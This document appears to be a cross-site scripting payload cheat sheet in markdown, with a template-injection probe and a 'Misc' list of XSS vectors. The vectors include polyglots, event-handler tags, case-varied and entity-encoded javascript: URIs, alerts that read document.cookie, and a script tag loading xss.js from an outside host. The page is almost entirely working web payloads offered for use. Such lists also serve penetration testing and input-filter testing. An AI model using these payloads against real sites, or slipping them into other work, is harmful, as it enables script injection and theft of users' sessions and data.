## Template Injection

```
"><img src=x>${{8*2}}
```

## Misc

```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

'';!--"<XSS>=&{()}

0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"

<script/src=data:,alert()>

<marquee/onstart=alert()>

<video/poster/onerror=alert()>

<isindex/autofocus/onfocus=alert()>

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')>

<IMG SRC=javascript:alert("XSS")>

<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<a onmouseover="alert(document.cookie)">xxs link</a>

<a onmouseover=alert(document.cookie)>xxs link</a>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC=# onmouseover="alert('xxs')">

<IMG SRC= onmouseover="alert('xxs')">

<IMG onmouseover="alert('xxs')">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;

&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&

#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

```